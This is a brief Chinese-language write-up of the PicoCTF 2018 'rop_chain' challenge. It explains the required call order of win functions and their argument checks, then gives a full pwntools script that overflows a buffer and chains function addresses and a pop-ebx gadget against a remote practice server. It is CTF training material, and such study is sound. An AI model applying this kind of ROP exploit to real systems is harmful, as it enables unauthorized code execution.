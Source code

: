 ![image-20201202190558416](https://static.hack1s.fun/images/2021/02/06/image-20201202190558416.png)

32位程序

这道题目的想法应该是想让人按照顺序调用相应的函数

![image-20201202190746145](https://static.hack1s.fun/images/2021/02/06/image-20201202190746145.png)

之后直接用这个flag读取相应的值

调用到这里的话需要三个条件，win1、win2都为真，并且a1是一个特定的值

win1可以直接调用；win2需要参数是一个特定值

![image-20201202192532128](https://static.hack1s.fun/images/2021/02/06/image-20201202192532128.png)

整体很基础，就是最简单的构造ROP链

记得把调用win2的参数pop出来就可以

```python
from pwn import *
from LibcSearcher import *

io = remote('node3.buuoj.cn',28619)
#io = process('./PicoCTF_2018_rop_chain')
elf = ELF('./PicoCTF_2018_rop_chain')

popebx_ret = 0x804840d
io.recvuntil('input>')
payload = bytes('a'*0x18 + 'b'*0x4,'ascii') + p32(elf.sym['win_function1']) + p32(elf.sym['win_function2']) + p32(popebx_ret) + p32(0xBAAAAAAD) + p32(elf.sym['flag']) + p32(popebx_ret) + p32(0x0deadbaad)
io.sendline(payload)

io.interactive()
```

